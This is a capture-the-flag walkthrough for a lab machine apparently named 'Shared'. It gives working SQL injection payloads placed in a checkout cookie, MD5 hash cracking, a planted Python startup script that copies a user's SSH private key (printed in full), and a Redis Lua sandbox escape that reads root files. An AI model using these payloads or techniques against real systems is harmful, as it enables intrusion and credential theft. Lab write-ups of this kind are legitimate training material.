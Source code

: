 ![RedPanda.PNG](/assets/Shared/Shared.png)

1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.172
```

2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.172
```

**Output**
```bash
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

3. Visit the web site

![web.PNG](/assets/Shared/web.PNG)
---

You need to buy any product and click on **Proceed to checkout**

![product.PNG](/assets/Shared/product.PNG)


4. Then, with BurpSuite try Inject SQL in the **cookies**, most especific in **custom_cart**

![payment.PNG](/assets/Shared/payment.PNG)

---

![cookie.PNG](/assets/Shared/cookie.PNG)

5. Try with the next sentences:

+ `{"' or 1=0 union select 1,@@version,3-- - ":"1"}`

![version.PNG](/assets/Shared/version.PNG)

---

+ `{"' or 1=0 union select 1,database(),3 -- - ":"1"}`

![db.PNG](/assets/Shared/b.PNG)

---

+ `{"' or 1=0 union select 1,table_name,3 from information_schema.tables where table_schema='checkout'-- - ":"1"}`

![table.PNG](/assets/Shared/table.PNG)

---

+ `{"' or 1=0 union select 1,username,3 from user-- - ":"1"}`

![user.PNG](/assets/Shared/user.PNG)

---

+ `{"' or 1=0 union select 1,password,3 from user-- - ":"1"}`

![password.PNG](/assets/Shared/password.PNG)


6. The password is hashed, use `hash-identifier` yo know the format
```bash
┌──(root㉿est)-[/home/kali]
└─# hash-identifier                                              
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
HASH: fc895d4eddc2fc12f995e18c865cf273
```

**Output**
```bash
Possible Hashs:
[+] MD5
```


7. With john decrypt the hash
```bash
┌──(root㉿est)-[/home/kali]
└─| john --format=raw-md5  -w=/home/kali/Desktop/rockyou.txt hash
```

**Output**

```bash
Soleil101
```


8. With this credentials connect to ssh
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Medium/Shared]
└─| ssh james_mason@10.10.11.172
```


**Output**
```bash
james_mason@shared:~$
```

9. Run this
```bash
james_mason@shared:~$ mkdir -m 777 /opt/scripts_review/profile_default/
james_mason@shared:~$ mkdir -m 777 /opt/scripts_review/profile_default/startup
james_mason@shared:~$ echo "import os;os.system('cat ~/.ssh/id_rsa > ~/dan_smith.key')" > /opt/scripts_review/profile_default/startup/poc.py
```

10. Copy the ssh key and connect to user **dan_smith**

```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Medium/Shared]
└─| cat ke                           
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvWFkzEQw9usImnZ7ZAzefm34r+54C9vbjymNl4pwxNJPaNSHbdWO
+/+OPh0/KiPg70GdaFWhgm8qEfFXLEXUbnSMkiB7JbC3fCfDCGUYmp9QiiQC0xiFeaSbvZ
FwA4NCZouzAW1W/ZXe60LaAXVAlEIbuGOVcNrVfh+XyXDFvEyre5BWNARQSarV5CGXk6ku
sjib5U7vdKXASeoPSHmWzFismokfYy8Oyupd8y1WXA4jczt9qKUgBetVUDiai1ckFBePWl
4G3yqQ2ghuHhDPBC+lCl3mMf1XJ7Jgm3sa+EuRPZFDCUiTCSxA8LsuYrWAwCtxJga31zWx
FHAVThRwfKb4Qh2l9rXGtK6G05+DXWj+OAe/Q34gCMgFG4h3mPw7tRz2plTRBQfgLcrvVD
oQtePOEc/XuVff+kQH7PU9J1c0F/hC7gbklm2bA8YTNlnCQ2Z2Z+HSzeEXD5rXtCA69F4E
u1FCodLROALNPgrAM4LgMbD3xaW5BqZWrm24uP/lAAAFiPY2n2r2Np9qAAAAB3NzaC1yc2
EAAAGBAL1hZMxEMPbrCJp2e2QM3n5t+K/ueAvb248pjZeKcMTST2jUh23Vjvv/jj4dPyoj
4O9BnWhVoYJvKhHxVyxF1G50jJIgeyWwt3wnwwhlGJqfUIokAtMYhXmkm72RcAODQmaLsw
FtVv2V3utC2gF1QJRCG7hjlXDa1X4fl8lwxbxMq3uQVjQEUEmq1eQhl5OpLrI4m+VO73Sl
wEnqD0h5lsxYrJqJH2MvDsrqXfMtVlwOI3M7failIAXrVVA4motXJBQXj1peBt8qkNoIbh
4QzwQvpQpd5jH9VyeyYJt7GvhLkT2RQwlIkwksQPC7LmK1gMArcSYGt9c1sRRwFU4UcHym
+EIdpfa1xrSuhtOfg11o/jgHv0N+IAjIBRuId5j8O7Uc9qZU0QUH4C3K71Q6ELXjzhHP17
lX3/pEB+z1PSdXNBf4Qu4G5JZtmwPGEzZZwkNmdmfh0s3hFw+a17QgOvReBLtRQqHS0TgC
zT4KwDOC4DGw98WluQamVq5tuLj/5QAAAAMBAAEAAAGBAK05auPU9BzHO6Vd/tuzUci/ep
wiOrhOMHSxA4y72w6NeIlg7Uev8gva5Bc41VAMZXEzyXFn8kXGvOqQoLYkYX1vKi13fG0r
SYpNLH5/SpQUaa0R52uDoIN15+bsI1NzOsdlvSTvCIUIE1GKYrK2t41lMsnkfQsvf9zPtR
1TA+uLDcgGbHNEBtR7aQ41E9rDA62NTjvfifResJZre/NFFIRyD9+C0az9nEBLRAhtTfMC
E7cRkY0zDSmc6vpn7CTMXOQvdLao1WP2k/dSpwiIOWpSLIbpPHEKBEFDbKMeJ2G9uvxXtJ
f3uQ14rvy+tRTog/B3/PgziSb6wvHri6ijt6N9PQnKURVlZbkx3yr397oVMCiTe2FA+I/Y
pPtQxpmHjyClPWUsN45PwWF+D0ofLJishFH7ylAsOeDHsUVmhgOeRyywkDWFWMdz+Ke+XQ
YWfa9RiI5aTaWdOrytt2l3Djd1V1/c62M1ekUoUrIuc5PS8JNlZQl7fyfMSZC9mL+iOQAA
AMEAy6SuHvYofbEAD3MS4VxQ+uo7G4sU3JjAkyscViaAdEeLejvnn9i24sLWv9oE9/UOgm
2AwUg3cT7kmKUdAvBHsj20uwv8a1ezFQNN5vxTnQPQLTiZoUIR7FDTOkQ0W3hfvjznKXTM
wictz9NZYWpEZQAuSX2QJgBJc1WNOtrgJscNauv7MOtZYclqKJShDd/NHUGPnNasHiPjtN
CRr7thGmZ6G9yEnXKkjZJ1Neh5Gfx31fQBaBd4XyVFsvUSphjNAAAAwQD4Yntc2zAbNSt6
GhNb4pHYwMTPwV4DoXDk+wIKmU7qs94cn4o33PAA7ClZ3ddVt9FTkqIrIkKQNXLQIVI7EY
Jg2H102ohz1lPWC9aLRFCDFz3bgBKluiS3N2SFbkGiQHZoT93qn612b+VOgX1qGjx1lZ/H
I152QStTwcFPlJ0Wu6YIBcEq4Rc+iFqqQDq0z0MWhOHYvpcsycXk/hIlUhJNpExIs7TUKU
SJyDK0JWt2oKPVhGA62iGGx2+cnGIoROcAAADBAMMvzNfUfamB1hdLrBS/9R+zEoOLUxbE
SENrA1qkplhN/wPta/wDX0v9hX9i+2ygYSicVp6CtXpd9KPsG0JvERiVNbwWxD3gXcm0BE
wMtlVDb4WN1SG5Cpyx9ZhkdU+t0gZ225YYNiyWob3IaZYWVkNkeijRD+ijEY4rN41hiHlW
HPDeHZn0yt8fTeFAm+Ny4+8+dLXMlZM5quPoa0zBbxzMZWpSI9E6j6rPWs2sJmBBEKVLQs
tfJMvuTgb3NhHvUwAAAAtyb290QHNoYXJlZAECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```
> Remember put 600 permision.

11. Connecy to ssh

```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Medium/Shared]
└─| ssh dan_smith@10.10.11.172 -i ke
```

**Output**
```bash
dan_smith@shared:~$ 
```

12. Read a **user flag**
```bash
dan_smith@shared:~$ cat user.txt 
380fab06016fd9471ce85e4db92dcdf6
```


13. Identified the group of user and search for files to try scale privileges
```bash
dan_smith@shared:~$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
dan_smith@shared:~$ find / -group sysadmin 2>/dev/null
/usr/local/bin/redis_connector_dev
```

14. Download **redis_connector_dev** file in our machine

+ Create a server with python
```bash
dan_smith@shared:/usr/local/bin$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

---

+ With **wget** download the file
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Medium/Shared]
└─| wget http://10.10.11.172:8000/redis_connector_dev
```



15. Run the file and listen on port 6379
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Medium/Shared]
└─| ./redis_connector_dev 
[+] Logging to redis instance using password...
```
---
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Medium/Shared]
└─| nc -lvnp 6379
listening on [any] 6379 ...
auth
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35836
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```


16. Run the next commands on Redis
```bash
dan_smith@shared:/usr/local/bin$ redis-cli
127.0.0.1:6379> CONFIG SET requirepass F2WHqJUz2WEz=Gqq
(error) NOAUTH Authentication required.
127.0.0.1:6379> AUTH default F2WHqJUz2WEz=Gqq
OK
```


17. Login on redis-cli with the password

```bash
dan_smith@shared:/usr/local/bin$ redis-cli --pass F2WHqJUz2WEz=Gqq
```


18. Run next commando to get **root flag**

```bash
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /root/root.txt", "r"); local res = f:read("*a"); f:close(); return res' 0
```

**Output**
```bash
"ca5b69ed8354ed3d7cbdcb5591a22d95\n"
```
> Remove **\n** and you get a **root flag**